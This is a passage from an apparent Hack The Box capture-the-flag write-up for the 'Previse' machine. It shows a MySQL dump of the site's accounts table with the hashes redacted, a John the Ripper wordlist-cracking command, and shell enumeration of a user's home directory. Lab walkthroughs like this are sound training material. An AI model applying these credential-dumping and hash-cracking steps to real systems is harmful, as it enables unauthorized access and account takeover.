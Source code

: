 ```sql
| accounts          |
| files             |
+-------------------+
2 rows in set (0.01 sec)

mysql> 
```

### Finding and Cracking Password Hashes from the SQL Database

It seems the credentials do work! That `accounts` table looks pretty interesting. Contents:
```sql
mysql> select * from accounts;
select * from accounts;
+----+---------------+------------------------------------+---------------------+
| id | username      | password                           | created_at          |
+----+---------------+------------------------------------+---------------------+
|  1 | m4lwhere      | <REDACTED>                         | 2021-05-27 18:18:36 |
|  2 | Squid         | <REDACTED>                         | 2021-12-23 05:14:33 |
|  3 | username      | <REDACTED>                         | 2021-12-23 07:08:53 |
|  4 | recon_pilot   | <REDACTED>                         | 2021-12-23 07:58:57 |
|  5 | administrator | <REDACTED>                         | 2021-12-23 08:14:22 |
|  6 | username123   | <REDACTED>                         | 2021-12-23 11:38:07 |
|  7 | nada123       | <REDACTED>                         | 2021-12-23 13:11:39 |
+----+---------------+------------------------------------+---------------------+
7 rows in set (0.00 sec)
```

Very nice! We have all existing usernames and their password hashes for each user of the Previse site — of course, only the `m4lwhere` user is of any interest, as all other usernames are HTB users. *Note that, to preserve the integrity of the CTF, the password hashes have been redacted.* John or Hashcat could be used here — I'll use John, since I'm familiar with it and the GPU in my Parrot machine is far from powerful...

```
┌[slak]─[tun0:down]─[/home/slak/reports/previse]
└>> john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long
Created directory: /home/slak/.john
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

...
```

Lets explore the Previse file system while John is running. Exiting from the SQL database and executing `ls /home` reveals the existence of the `m4lwhere` user's home directory. Pushing further reveals...
```
www-data@previse:/var/www/html$ ls /home/m4lwhere
user.txt
www-data@previse:/var/www/html$ cat /home/m4lwhere/user.txt
cat: /home/m4lwhere/user.txt: Permission denied
```
